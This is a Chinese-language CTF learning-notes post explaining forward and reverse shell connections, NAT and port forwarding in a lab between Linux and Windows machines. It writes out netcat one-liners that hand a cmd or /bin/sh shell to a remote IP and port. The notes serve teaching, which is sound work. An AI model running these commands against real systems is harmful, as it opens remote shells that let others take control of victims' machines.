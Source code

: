 ```yaml
---
title: 20250110CTF学习笔记36
date: 2025-01-10
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true




















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第52天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 反弹Shell

### 反向连接演示

**反向连接原理：**

- 主动给出去，对方监听，区别于正向连接的`本地监听，等待对方来连`
- 反向连接是谁监听，就控制对方

**Linux控制Windows：**

1. Windows主动把CMD的权限交给某个IP和端口

   ```shell
   nc -e cmd 47.94.236.117 5566
   ```

2. Linux上监听自己的5566端口，等待上钩的鱼，而Windows是主动把钩给Linux

   ```shell
   ncat -lvp 5566
   ```

**Windows控制Linux：**

1. 在Windows上监听5566

   ```shell
   nc -lvp 5566
   ```

2. 绑定自己的sh，主动给到对方的5566端口（这里`47.122.23.131 5566`指的是windows的IP和端口）

   ```shell
   ncat -e /bin/sh 47.122.23.131 5566
   ```

3.  实际上这就是Linux主动把权限给到Windows远程上的5566端口，区别于正向连接的Windows主动控制Linux

### 总结

这其实是一个正反向的问题，还是刚才的图

- Linux控制Windows有两种选择，一种是正向连接，一种是反向连接。
  1. 正向连接是Linux主动找到Windows，在Windows本地进行监听，Linux连接Windows的本地端口来实现
  2. 反向连接是由Windows主动把权限给到Linux，在Linux做本地监听来实现
- Windows控制Linux也有两种选择，一种是正向连接，一种是反向连接
  1. 正向连接是Windows主动找到Linux，在Linux本地进行监听，Windows连接Linux的本地端口来实现
  2. 反向连接是由Linux主动把权限给到Windows，在Windows做本地监听来实现



### 反弹Shell在内网环境的应用

**了解内网：**类似公司、学校、网吧都是内网环境，他们的组网方式是通过公网IP来上网的。当用户在运营商处办理宽带业务后，运营商通常会提供一个上网账号，用户需将此账号配置到路由器上相应位置，随后，连接至该路由器的各个终端设备，便可依托此账号接入互联网，实现上网功能。

**思考：**如果要控制内部环境的某一台机器，会出现什么问题呢？

这就涉及到外网IP的单个唯一性，就只有一个主网IP，这个IP地址是全球唯一的。

![image-20250110213622805](/img/ctfLearn/image-20250110213622805.png)

这种情况下只能用反向连接，因为我们自己服务器IP是全球唯一的，但我们正向连接的话，只能找到路由器这一层，找不到下方的哪台机器。内网IP是路由器下自己分配的。

**通俗理解：**就像是在学校，最多只能找到宿舍门牌号，如果说给个名字，那没有用，可能有重名的。

**特殊情况：**如果我们要让路由器知道是我们找的哪台机器，这就需要在路由器设置端口转发/端口映射。



### 反弹Shell在内网环境的演示实验

视频中演示的是用Linux控制Windows虚拟机，Liunx是用SSH远程连接的，虚拟机是在本地Vmware中运行的，IP是和本机的IP是相同的。

- 首先测试的是正向连接，Linux主动控制Windows，我们进入到Linux中，输入命令：

  ```shell
  ncat 192.168.124.128 5566
  ```

- 然后到虚拟机上，主动把CMD的权限绑定到端口

  ```shell
  nc.exe -e cmd lvvp 5566
  ```

- 以上步骤完成后，发现两边都没有反应，长时间以后提示超时，其实这个结果是可以预料到的，用内网IP是肯定行不通的

- 下一步我们让Linux连接我们本机的IP地址，同时也是虚拟机的IP地址，此时我们Windows虚拟机上的nc还没关。

  ```shell
  ncat 1.30.217.180 5566
  ```

- 然后我们就发现，依然连接不上。原因是这个IP地址相当于路由器的出口，而路由器的出口并没有执行监听操作，所以会连接失败。

- 以上结果表明，我们要想要用Linux控制虚拟机中的Windows，只能通过反向连接，因为我们知道Linux的IP地址，所以让Windows主动将权限给到Linux的5566

  ```shell
  nc -e cmd 123.123.123.123 5566
  ```

- 下一步是在Linux上去监听5566端口，就能用Linux控制Windows虚拟机，实现反向连接了。

  ```shell
  nc -lvp 5566
  ```

**结论：**这就是正反向连接的应用价值，需要判断什么时候用正向连接，什么时候用反向连接。

**通俗理解：**他找不到你，你就去找他。

**反向示例：**用Windows虚拟机控制Linux

- 让Linux主动把权限绑定到端口5566，然后让Windows主动连接。

  ```shell
  # linux上输入以下命令
  ncat -e /bin/sh -lvp 5566
  # windows上输入以下命令
  nc 123.123.123.123 5566
  ```

- 这种从Windows来看，就成了正向连接。如果我们用反向连接，也就是Linux主动把权限给到Windows，这样是行不通的，因为我们找不到这台Windows虚拟机，因为它在内网，所以只能Windows主动发起正向连接。

**挖坑：**如果两边都是内网怎么办？这就涉及到后续的课程了。大致思路是加个中间人就可以了，两边都给到中间人做中转，让中间人作下发。

> 这里讲到的正向连接、反向连接，感觉和我以前做网站开发时，只能本地看本地网站，如果说互联网要看我虚拟机里某个搭建的网站是不可以的，这需要做端口映射，如果不做的话是访问不了的。